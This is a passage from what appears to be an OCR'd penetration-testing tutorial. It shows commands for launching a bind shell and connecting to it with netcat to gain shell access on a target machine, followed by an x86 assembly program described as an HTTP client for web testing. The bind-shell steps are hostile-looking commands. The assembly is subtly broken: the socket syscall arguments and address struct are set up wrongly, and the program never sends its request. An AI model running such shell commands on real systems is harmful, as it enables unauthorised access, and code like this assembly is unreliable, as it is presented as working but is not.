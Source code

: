 ```bash
./bind_shell
```

Then, on the attacker machine, you can use netcat or any other TCP client to connect to the target machine:

```bash
nc 127.0.0.1 4444
```

Once the connection is established, you'll have shell access to the target system. Again, it's essential to use such tools responsibly and with proper authorization. Unauthorized access is illegal and unethical. Always ensure you have explicit permission before conducting any penetration testing activities.

Creating web penetration testing tools in assembly language can be challenging due to the complexity of web protocols and the higher-level nature of web applications. However, we can create a basic tool in assembly to perform HTTP requests and analyze server responses. Let's create a simple HTTP client in x86 assembly:

```assembly
section .data
    host        db 'example.com', 0   ; Target host
    port        equ 80                ; HTTP port
    request     db 'GET / HTTP/1.1', 0x0D, 0x0A, \
                'Host: example.com', 0x0D, 0x0A, 0x0   ; HTTP request

section .bss
    response    resb 1024              ; Buffer to store server response

section .text
    global _start

_start:
    ; Create socket (socket syscall)
    xor eax, eax
    mov al, 0x66                     ; Socket syscall number
    xor ebx, ebx                     ; Clear ebx register
    mov bl, 0x1                      ; Set ebx to 1 (SOCK_STREAM)
    push ebx                         ; Push SOCK_STREAM onto the stack
    pop ecx                          ; Pop SOCK_STREAM into ecx
    xor edx, edx                     ; Clear edx register
    mov dx, 0x2                      ; Set dx to 2 (AF_INET)
    push edx                         ; Push AF_INET onto the stack
    pop esi                          ; Pop AF_INET into esi
    int 0x80                         ; Call kernel

    ; Connect to remote host (connect syscall)
    mov edi, eax                     ; Copy sockfd to edi
    xor eax, eax
    mov al, 0x66                     ; Connect syscall number
    xor ebx, ebx                     ; Clear ebx register
    push 0x10                        ; Push sockaddr_in struct size onto the stack
    pop edx                          ; Pop sockaddr_in struct size into edx
    lea ecx, [esi + 2]               ; Load sockaddr_in struct address into ecx
    push 0x2                         ; Push AF_INET onto the stack
    pop ebx                          ; Pop AF_INET into ebx
    mov word [esi + 2], bx           ; Store AF_INET in sockaddr_in struct
    mov word [esi], dx               ; Store port number in sockaddr_in struct
    push ecx                         ; Push pointer to sockaddr_in struct onto the stack
    mov ecx, esp                     ; Move stack pointer to ecx
    push 0x10                        ; Push sockaddr_in struct size onto the stack
    push ecx                         ; Push pointer to sockaddr_in struct onto the stack
    push edi                         ; Push sockfd onto the stack
    mov ecx, esp                     ; Move stack pointer to ecx
    int 0x80                         ; Call kernel
```